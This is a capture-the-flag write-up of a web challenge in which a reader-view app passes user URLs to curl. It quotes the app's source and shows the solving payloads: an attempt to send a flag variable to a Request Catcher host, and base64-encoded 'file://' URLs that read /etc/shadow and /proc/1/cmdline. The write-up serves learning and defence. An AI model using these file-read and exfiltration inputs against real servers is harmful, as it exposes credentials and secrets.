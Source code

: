 # Curl Up and Read
**Category**: Web

**Level**: Hard

**Points**: 500

**Description**:
```markdown
This app will show the reader view of any website you enter! No more ads, cookie nags, and paywalls, just content.

https://curl.sdc.tf/

[page.tsx]
```

## Writeup
There wasn't much in the description, but the challenge author was kind enough to give us the source code for the application!! I first took a look at the website, and it was pretty straightforward - enter a link, and it will show the page for you. This was the definition of an [SSRF vulnerability](https://portswigger.net/web-security/ssrf), but since the challenge was listed as "Hard", I knew there was more to it. Since the challenge had `Curl` in the description, I guessed it had to do with exploiting cURL. I created a [custom subdomain on Request Catcher](https://asdfasdfsdfsdf.requestcatcher.com/) and input the link to it in the form just to see what kind of headers were included. 

![](request_catcher.png)

The first thing that caught my eye was the version of cURL listed - `curl/7.68.0`. A quick Google search revealed that this version came out in 2020 (2 years old) and had [more than a handful of CVEs](https://curl.se/docs/vuln-7.68.0.html) that it was vulnerable to! I started reading through CVE reports, but nothing really stood out to me as being useful in a CTF. This is when I decided it was probably a good idea to take a look at the source code.

`page.tsx` was written in TypeScript (which I wasn't super familiar with), but it's pretty much JavaScript so I got by. The important part of the code was this:

```typescript
export const getServerSideProps: GetServerSideProps = async (context) => {
    // validate the input through a STRICT series of checks
    const pageEncoded = context.params?.page;
    if (!pageEncoded || typeof pageEncoded !== 'string')
        return {notFound: true};
    const pageDecoded = new Buffer(pageEncoded, 'base64').toString('ascii');
    if (!pageDecoded)
        return {notFound: true};
    const pageParsed = JSON.parse(pageDecoded);
    if (!pageParsed)
        return {notFound: true};
    if (!validate(pageParsed))
        return {notFound: true};

    const options = {
        timeout: 2000, // kill if the download takes longer than two seconds
        env: {...process.env, FLAG: 'REDACTED'} // even if CURL is somehow pwned, it won't have access to the flag
    }

    // download the requested webpage
    const output = execFileSync('curl', ['-s', pageParsed.url], options);
    if (!output)
        return {notFound: true};

    // parse the webpage using JSDOM and Readability
    // JSDOM does NOT execute any JS by default
    const doc = new JSDOM(output.toString(), {url: pageParsed.url});
    const reader = new Readability(doc.window.document);
    const content = reader.parse();
    if (!content)
        return {notFound: true};

    // return the reader view content
    return {props: content};
}
```

So the gist of the code is this - it took a base64 string, decoded it, and parsed it as JSON. If the string provided couldn't do those, it was rejected. Once the URL was parsed, it was passed into a `validate` function that pretty much just used an AJV function to ensure that it really was a valid URL. Then, it threw the URL into the `execFileSync()` function with `cURL` and showed the output (without executing JavaScript, so XSS wasn't possible). The part that really stood out to me was that the flag was stored in an environmental variable, so if I could access that variable, I could get the flag! You'll notice that in the source code, it sets `FLAG` to `REDACTED`. I figured this was just in the copy of the source code that we got, but it wasn't until later that `FLAG` was an actual environmental variable already defined, this was just overriding it so that it couldn't be accessed from the site (supposedly). 

The first thing I tried was putting in the URL `https://asdfasdfsdfsdf.requestcatcher.com/test$FLAG` because in a Bash shell, this would append the value for the flag to the end of the URL. I even tested it myself, and it worked! However, all I could see from Request Catcher was the path as `/test$FLAG` - it wasn't being interpreted as a variable :( sad days! I did some research to see if there was some sort of syntax I needed to use and why it didn't work, and after looking at [the documentation](https://nodejs.org/api/child_process.html#child_processexecfilesyncfile-args-options) for `execFileSync`, I realized that a shell wasn't spawned, and that's why it didn't work. If the `spawn()` function would've been used, I could've used that payload. In fact, using `execFileSync()` also protected it from parameter injection and command injection. So that wasn't going to work!

I took a step back and re-read the challenge name and description (which is ALWAYS a good thing to do and oftentimes reveals you didn't read close enough!) and the title "Curl Up and Read" gave me an idea. Maybe I was going for read access on the machine? I quickly typed in `file:///etc/shadow` and the browser told me it did not think that was a URL. Well, client-side authentication is never secure, so I instead put into a JavaScript object `{"url":"file:///etc/shadow"}`, base64 encoded it `eyJ1cmwiOiJmaWxlOi8vL2V0Yy9zaGFkb3cifQ==`, and inserted it directly into the URL. To my surprise, I saw it!! The file was shown!

![](passwd.png)

Okay, so I had read access on to the machine as the root user. Again, I had thought that the password was actually stored in the `page.tsx` file, so I tried locating that file, but was unsuccessful. I knew that the `/proc/` directory was a thing and likely stored environmental variables there, so I started to look around. Using the location `file:///proc/1/cmdline` (https://curl.sdc.tf/read/eyJ1cmwiOiJmaWxlOi8vL3Byb2MvMS9jbWRsaW5lIn0=) revealed the flag stored in the commandline!! 

![](flag.png)

**Flag** - `sdctf{CURL_up_aNd_L0c@L_F1le_incLuSi0N}`

## Real-World Application
One of the biggest things I learned was that you could get local files from `cURL`! I even had to test it using my cURL on my local machine to make sure I wasn't going crazy, and I wasn't! It's those small details that can make all the difference. Although I pursued various paths that ended up not panning out, I still don't regret it because I learned about the `execFileSync` function, read through some CVEs, and had fun! 

When implementing a web server, especially with a service like this one, it's always important to test your server-side checks because client-side authentication is <i>never</i> secure. In this case, they simply trusted that the JavaScript library that was meant for checking for valid URLs would protect them and probably didn't give it a second thought. Bad idea!! Always test it yourself!